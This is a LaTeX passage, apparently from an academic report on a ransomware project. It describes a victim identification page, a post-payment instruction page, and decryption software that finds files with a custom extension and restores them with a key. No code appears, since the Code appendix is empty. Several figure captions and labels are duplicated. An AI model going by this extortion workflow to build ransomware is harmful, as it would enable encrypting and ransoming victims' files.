    
\includegraphics[height=7cm]{inputuuid}
    \caption{Webpage where the victim needs to identify himself}
    \label{instructions}
\end{figure}
\begin{figure}[H]
    \centering 
    
\includegraphics[height=7cm]{paid_instructions}
    \caption{Instruction page after the payment is confirmed}
    \label{instructions}
\end{figure}

The decryption software works analog to the encryption software, only in the reversed order. The software searches in the userdirectory for encrypted files with the specific extension \textit{.Qwfsdfjio} and tries to decrypt this file with the given decryption key. At the end the user gets a message if the decryption was successful or not.


\begin{figure}[H]
    \centering 
    \includegraphics[height=7cm]{decrypt}
    \caption{Instruction page after the payment is confirmed}
    \label{instructions}
\end{figure}
\endgroup
%
\section{Evaluation}\label{Evaluation}



\chapter{Conclusion}\label{Conclusion}



\appendix

\chapter{Code}\label{Code}





\newpage
\nocite{*}
\bibliographystyle{apacite}
\bibliography{references}
\end{document}
    
    
        